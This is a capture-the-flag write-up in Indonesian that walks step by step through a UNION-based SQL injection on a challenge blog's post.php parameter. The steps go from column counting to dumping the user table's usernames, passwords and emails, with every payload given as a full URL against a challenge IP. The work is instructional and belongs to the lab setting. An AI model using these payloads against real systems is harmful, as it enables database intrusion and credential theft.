






#CTF #MonthlyCTF24 #WriteUp #WebExploitation #SQLInjection

>**Flag:** `PC24{SQLInjection_Bahaya_Bangetz}`
>***References*:** [hacktricks.xyz](https://book.hacktricks.xyz/pentesting-web/sql-injection) [linuxsec.org](https://www.linuxsec.org/2014/03/tutorial-basic-sql-injection.html) 
### Soal:

### Write Up:

Pertama, kita perlu mengetahui kerentanan dari web dengan menambahkan `'` pada parameter url.

Pesan error ini dapat menjadi indikasi bahwa web rentan terhadap sql injection. 

Cek jumlah kolom pada web menggunakan `ORDER BY`
```
http://217.15.166.137:5128/post.php?id=4%20order%20by%201 (True)
http://217.15.166.137:5128/post.php?id=4%20order%20by%202 (True)
http://217.15.166.137:5128/post.php?id=4%20order%20by%203 (True)
http://217.15.166.137:5128/post.php?id=4%20order%20by%204 (True)
http://217.15.166.137:5128/post.php?id=4%20order%20by%205 (Error)
```
dari sini kita bisa mengetahui bahwa jumlah kolom ada 4.

Kita cek apakah kita bisa menggunakan `UNION SELECT` atau tidak
```
http://217.15.166.137:5128/post.php?id=4%20union%20select%201,2,3,4
```
samakan select dengan jumlah kolom dan disini tidak terjadi error. Disini kita akan mencoba untuk mendapatkan informasi dari database.\
Ganti salah satu angka dengan `database()` untuk mengetahui nama database yang sedang digunakan dan `@@version` untuk mengetahui versinya.
```
http://217.15.166.137:5128/post.php?id=4%20union%20select%201,database(),@@version,4
```
#### Information:
Nama Database = `Blog`
Versi database = `11.4.2-MariaDB-ubu2404`

Kita akan mencari tahu tabel apa saja yang ada di dalam database ini menggunakan:
- `group_concat()` yang berguna untuk menggabungkan nilai-nilai dari beberapa baris menjadi satu string dengan nilai-nilai yang dipisahkan oleh tanda pemisah yang ditentukan.
- table `information_schema.tables` untuk mendapatkan nama table dengan column `table_name`.
- filter `where table_schema = database()` untuk membatasi hasil query berdasarkan nama database yang sedang aktif atau yang sedang digunakan dalam sesi saat itu.
```
http://217.15.166.137:5128/post.php?id=4%20union%20select%201,group_concat(table_name),3,4%20from%20information_schema.tables%20where%20table_schema=database()
```



Nama tabel dalam database ada post dan user, kita coba untuk mengakses table user.
```
http://217.15.166.137:5128/post.php?id=4%20union%20select%201,group_concat(column_name),3,4%20from%20information_schema.columns%20where%20table_name=%27user%27
```

Selanjutnya kita tampilkan keseluruhan isi dari dari table user.
```
http://217.15.166.137:5128/post.php?id=4%20union%20select%201,group_concat(id,username,password,email),3,4%20from%20user
```



dan **FLAG HAS BEEN FOUND!!**